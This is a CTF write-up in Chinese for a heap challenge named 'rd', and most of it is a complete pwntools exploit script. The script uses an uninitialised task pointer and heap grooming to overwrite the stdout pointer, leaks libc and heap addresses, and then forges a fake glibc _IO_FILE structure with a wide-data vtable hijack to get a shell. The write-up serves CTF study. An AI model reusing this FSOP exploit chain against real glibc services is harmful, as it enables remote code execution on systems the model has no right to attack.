

# rd

## 题目简述

服务在 task 数量达到阈值后不会初始化 `tasks` 指针，可通过堆布局踩到 stdout 指针。解法分两轮 IO：第一轮泄露 heap/libc，第二轮构造 fake stdout / fake IO FILE 控制执行流。

## 解题过程

### 关键观察

服务在 task 数量达到阈值后不会初始化 `tasks` 指针，可通过堆布局踩到 stdout 指针。

### 求解步骤

不打race，在 task 大于等于 17 ，不初始化 tasks，利用风水踩 stdout 指针，run task 的之后就能
在 stdout 写堆地址。
打两遍 IO，第一次 leak heap_base，第二次控制执行流
依然奇妙原因，不race远程依然有成功率，成功率还蛮低的:)
void __cdecl allocate_task(user_t *user)
{
  task_t *task; // [rsp+18h] [rbp-8h]

  if ( task_allocated <= 15 )
  {
    task = (task_t *)malloc(0x28u);
    task->result = 0;
    task->task_length = 0;
    task->user_running = &user->task_running;
    ++task_allocated;
    user->tasks = task;
  }
}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
import re

BIN  = './main'
HOST = '<challenge-host>'
PORT = 26002

BROKEN_TIMES = 150

# HOST = '127.0.0.1'
# PORT = 13331

context.binary = BIN
# context.gdb_binary = 'pwndbg'
context.log_level = 'debug' # if args.DEBUG else 'info'
context.terminal = ['tmux', 'splitw', '-h']

def task_sleep():
    sleep(4)

def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    elif args.GDB:
        io = process(BIN)
        gdb.attach(io, gdbscript='''
            dir ~/glibc/glibc-2.39
            source ~/tools/Pwngdb/pwngdb.py
            source ~/tools/Pwngdb/angelheap/gdbinit.py
            define hook-run
            python
            import angelheap
            angelheap.init_angelheap()
            end
            end
            set debuginfod enabled on

            b *main
            c
        ''')
        return io
    else:
        io = process(BIN)
        return io

io = start()

# recv
r   = lambda n=4096:           io.recv(n)
rl  = lambda:                  io.recvline()
ru  = lambda x, drop=True:     io.recvuntil(x, drop=drop)

rnb = lambda n=4096, t=0.1:    io.recv(n, timeout=t)
cln = lambda t=0.1:            io.clean(timeout=t)

# send
s   = lambda data:             io.send(data)
sl  = lambda data:             io.sendline(data)
sa  = lambda delim, data:      io.sendafter(delim, data)
sla = lambda delim, data:      io.sendlineafter(delim, data)

def make_packet(fields: dict) -> bytes:
    lines = []
    for k, v in fields.items():
        lines.append(f"{k}:".encode() + v)
    pkt = b"\n".join(lines) + b"\n"
    return pkt

def send_packet(fields: dict, show=True, t=1) -> bytes:
    pkt = make_packet(fields)
    sleep(0.5)
    sl(pkt)
    # resp = rnb(4096, t=t)
    # if show and resp:
    #     log.info(f"resp: {resp!r}")
    # return resp or b''

IO_FILE_STRUCT = {
    'amd64': {
        0x0: '_flags',
        0x8: '_IO_read_ptr',
        0x10: '_IO_read_end',
        0x18: '_IO_read_base',
        0x20: '_IO_write_base',
        0x28: '_IO_write_ptr',
        0x30: '_IO_write_end',
        0x38: '_IO_buf_base',
        0x40: '_IO_buf_end',
        0x48: '_IO_save_base',
        0x50: '_IO_backup_base',
        0x58: '_IO_save_end',
        0x60: '_markers',
        0x68: '_chain',
        0x70: '_fileno',
        0x74: '_flags2',
        0x78: '_old_offset',
        0x80: '_cur_column',
        0x82: '_vtable_offset',
        0x83: '_shortbuf',
        0x88: '_lock',
        0x90: '_offset',
        0x98: '_codecvt',
        0xa0: '_wide_data',
        0xa8: '_freeres_list',
        0xb0: '_freeres_buf',
        0xb8: '__pad5',
        0xc0: '_mode',
        0xc4: '_unused2',
        0xd8: 'vtable'
    }
}

def build_fake_io_file(arch='amd64', **kwargs):
    struct_def = IO_FILE_STRUCT.get(arch)
    if not struct_def:
        raise ValueError(f"Unsupported architecture: {arch}")

    fake_io = b'\x00' * 0xe0

    defaults = {
        '_flags': 0xfbad1800,
        '_IO_write_base': 0,
        '_IO_write_ptr': 0,
        '_IO_write_end': 0,
        '_IO_buf_base': 0,
        '_IO_buf_end': 0,
        'vtable': 0,
        '_fileno': 1,
    }

    defaults.update(kwargs)

    for offset, field_name in struct_def.items():
        if field_name in defaults:
            value = defaults[field_name]
            if isinstance(value, int):
                if offset in [0x70, 0x74, 0x80, 0x82, 0x83, 0xc0, 0xc4]:  # 小
字段
                    if offset == 0x70:
                        fake_io = fake_io[:offset] + p32(value & 0xffffffff) +
fake_io[offset+4:]
                    elif offset == 0x74:
                        fake_io = fake_io[:offset] + p32(value & 0xffffffff) +
fake_io[offset+4:]
                    elif offset == 0x80:
                        fake_io = fake_io[:offset] + p16(value & 0xffff) +
fake_io[offset+2:]
                    elif offset == 0x82:
                        fake_io = fake_io[:offset] + p8(value & 0xff) +
fake_io[offset+1:]
                    elif offset == 0x83:
                        fake_io = fake_io[:offset] + p8(value & 0xff) +
fake_io[offset+1:]
                    elif offset == 0xc0:
                        fake_io = fake_io[:offset] + p32(value & 0xffffffff) +
fake_io[offset+4:]
                    elif offset == 0xc4:
                        fake_io = fake_io[:offset] + p32(value & 0xffffffff) +
fake_io[offset+4:]
                else:
                    fake_io = fake_io[:offset] + p64(value) +
fake_io[offset+8:]

    return fake_io

def do_register(username: str, password: str) -> bytes:
    fields = {
        'command': b'register',
        'username': username.encode(),
        'password': password.encode(),
    }
    return send_packet(fields)

def do_login(username: str, password: str, parse_token: bool = True,
broken_io: bool = False, second_login: bool = False):
    fields = {
        'command': b'login',
        'username': username.encode(),
        'password': password.encode(),
    }
    resp = send_packet(fields)

    # if broken_io:
    #     for i in range(BROKEN_TIMES):
    #         _fileds = {
    #             'command': b'register',
    #             'username': b'user1',
    #             'password': b'pass1',
    #         }
    #         send_packet(_fileds)
    #         log.info(f"send {i} packets")
    #         sleep(0.01)
        # for i in range(BROKEN_TIMES - 1):
        #     ru('user_token:')

    ru('user_token:')
    token = ru('\n', drop=True)
    print(f"token: {token!r}")
    return resp, token

def do_submit_task(token: bytes | str, task_content: bytes | str) -> bytes:
    if isinstance(token, str):
        token = token.encode()
    if isinstance(task_content, str):
        task_content = task_content.encode()

    fields = {
        'command':    b'submit_task',
        'user_token': token,
        'task_content': task_content
    }
    return send_packet(fields)

def do_deregister(token: bytes | str) -> bytes:
    if isinstance(token, bytes):
        token = token.decode()

    fields = {
        'command':    b'deregister',
        'user_token': token.encode(),
    }
    return send_packet(fields)

def exploit():
    for i in range(16):
        reg_resp = do_register(f'user{i}', f'pass{i}')
        ru(f'Reigster success')

    login_resp, token = do_login('user1', 'pass1')
    submit_resp = do_submit_task(token, 'A' * 0xa00)
    if args.REMOTE :
        task_sleep()

    login_resp, token = do_login('user2', 'pass2')
    submit_resp = do_submit_task(token, 'B' * 0xa10)
    if args.REMOTE :
        task_sleep()
    login_resp, token = do_login('user3', 'pass3')
    submit_resp = do_submit_task(token, 'C' * 0xa20)
    if args.REMOTE :
        task_sleep()
    '''
    brva 0x16CD
    '''

    fields = {
        # By this we free the chunk
        'command': b'login',
        'fuck': b'E' * 0x428,
    }
    send_packet(fields)

    if args.REMOTE:
        sleep(1)

    fields = {
        # By this we dont free the chunk
        'loveyou': b'B' * (0x410 - 0xd0),
    }
    send_packet(fields)
    ru('Invalid')

    reg_resp = do_register('U' * 8, 'P' * 8)
    ru('success')
    login_resp, token = do_login('U' * 8, 'P' * 8)
    libc_leak = u64(token[32:].ljust(8, b'\x00'))
    log.info(f"libc_leak: {hex(libc_leak)}")

    libc_base = libc_leak - 0x203b20
    log.info(f"libc_base: {hex(libc_base)}")
    stdout = libc_base + 0x2046a8
    log.info(f"stdout: {hex(stdout)}")

    # Clean the unsorted bin
    fields = {
        # By this we dont free the chunk
        'loveyou': b'B' * 0x330,
    }
    send_packet(fields)
    ru('Invalid')

    # Fake task
    fields = {
        # By this we free the chunk
        'command': b'login',
        'fuck': b'!' * 0x430 + p64(stdout - 0x20)[:6] + b'A', # To delete the
zero
    }
    send_packet(fields)
    if args.REMOTE:
        sleep(1)

    fields = {
        # By this we free the chunk
        'command': b'login',
        'fuck': b'!' * 0x430 + p64(stdout - 0x20)[:6],
    }
    send_packet(fields)

    if args.REMOTE:
        sleep(1)

    reg_resp = do_register('loveme'.ljust(0x1c0 + 0x60 - 0x30, 'e'), 'P' *
(0x200))
    ru('success')
    login_resp, token = do_login('loveme'.ljust(0x1c0 + 0x60 - 0x30, 'e'), 'P'
* (0x200))

    _io_wfile_table = 0x202228 + libc_base
    demangle_key = 0x259740 + 0x30 + libc_base
    heap_base_addr_libc = 0x2031e0 + libc_base

    fake_stdout = build_fake_io_file(
        arch='amd64',
        _flags = 0xfbad1800 | 0x0002,
        _IO_read_ptr = libc_base ,
        _IO_read_end = libc_base,
        _IO_read_base = libc_base,
        _IO_write_base = heap_base_addr_libc,
        _IO_write_ptr = heap_base_addr_libc + 8,
        _IO_write_end = heap_base_addr_libc + 8,
        _IO_buf_base = 0,
        _IO_buf_end = heap_base_addr_libc + 0x10,
        _IO_save_base = 0,
        _IO_backup_base = 0,
        _IO_save_end = 0,
        _markers = 0,
        _chain = 0,
        _fileno = 1,
        _flags2 = 128,
        # _old_offset = -1,
        _cur_column = 0,
        _vtable_offset = 0,
        _lock = 0x205700 + libc_base  ,
        # _offset = -1,
        _codecvt = 0,
        _wide_data = 0,
        _freeres_list = 0,
        _freeres_buf = 0,
        vtable = 0x202030 + libc_base,
        # _mode = -1,
    )

    # xor with 0x3f
    fake_stdout = xor(fake_stdout, 0x3f)

    log.info(f"fake_stdout size: {len(fake_stdout)}")
    log.info(f"fake_stdout hex: {fake_stdout.hex()[:100]}...")

    submit_resp = do_submit_task(token, fake_stdout)
    # input("leak >")

    _fileds = {
        'command': b'login',
        'username' : b'user1',
        'password' : b'pass1'
    }
    send_packet(_fileds)
    heap_base_addr = u64(ru('\n')[:6].ljust(8, b'\x00'))
    log.info(f"heap_base_addr: {hex(heap_base_addr)}")

    # for i in range(100):
    #     sl('\n' * 0xf00)
    #     sleep(0.1)
    # ru('packet')
    # io.interactive()
    login_resp, token = do_login('user4', 'pass4', broken_io=True)
    submit_resp = do_submit_task(token, 'D' * 0xa30)
    if args.REMOTE and HOST != '127.0.0.1':
        task_sleep()
    # Fake task

    fields = {
        # By this we free the chunk
        'command': b'login',
        'fuck': b'!' * 0x430 + p64(stdout - 0x20)[:6] + b'A', # To delete the
zero
    }
    send_packet(fields)
    # ru('Invalid')
    if args.REMOTE:
        sleep(1)

    fields = {
        # By this we free the chunk
        'command': b'login',
        'fuck': b'!' * 0x430 + p64(stdout - 0x20)[:6],
    }
    send_packet(fields)
    if args.REMOTE:
        sleep(1)

    if not args.REMOTE:
        reg_resp = do_register('xxx'.ljust(0x210 + 0x100 + 0xa0 + 0x60 - 0x30,
'e'), 'P' * (0x28))
    else:
        reg_resp = do_register('xxx'.ljust(0x210 + 0x100 + 0xa0 + 0x60 - 0x30,
'e'), 'P' * (0x28))

    print(io.recv())

    if not args.REMOTE:
        login_resp, token_2 = do_login('xxx'.ljust(0x210 + 0x100 + 0xa0 + 0x60
- 0x30, 'e'), 'P' * (0x28), broken_io=True)
    else:
        login_resp, token_2 = do_login('xxx'.ljust(0x210 + 0x100 + 0xa0 + 0x60
- 0x30, 'e'), 'P' * (0x28), broken_io=True)

    if not args.REMOTE:
        heap_after_file = 0x6240 + heap_base_addr
    else:
        heap_after_file = 0x5e30 + heap_base_addr

    fake_stdout = build_fake_io_file(
        arch='amd64',
        _flags=0x3b68732020,
        _IO_write_base=0,
        _IO_write_ptr=0x4141414141414141,
        _IO_write_end=0,
        _IO_read_ptr=0,
        _IO_read_end=1,
        _IO_read_base=0,
        _IO_buf_base=0,
        _IO_buf_end=0,
        _lock=stdout + 0x100,
        _wide_data=heap_after_file,
        # _codecvt = 0x5cb0 + heap_base_addr,
        vtable=_io_wfile_table,
    )

    fake_stdout += flat(
        {
            0: b'HIROHIRO',
            0x68: 0x58750 + libc_base,
            0xe0: heap_after_file
        },filler=b'\x00'
    )

    fake_stdout = xor(fake_stdout, 0x3f)

    log.info(f"fake_stdout size: {len(fake_stdout)}")
    log.info(f"fake_stdout hex: {fake_stdout.hex()[:100]}...")

    log.info(f"token_2: {token_2!r}")

    submit_resp = do_submit_task(token_2, fake_stdout)
    if args.REMOTE:
        task_sleep()

    reg_resp = do_register('H', 'E')

    io.interactive()

def main():
    exploit()

if __name__ == '__main__':
    main()

### PDF 图片

## 方法总结

- 核心技巧：未初始化任务指针 + fake IO FILE。
- 识别信号：计数达到阈值后分配逻辑跳过初始化，但后续仍使用 task 指针。
- 复用要点：远程成功率低时把 exploit 拆成 leak 和 hijack 两轮，提高可调试性。
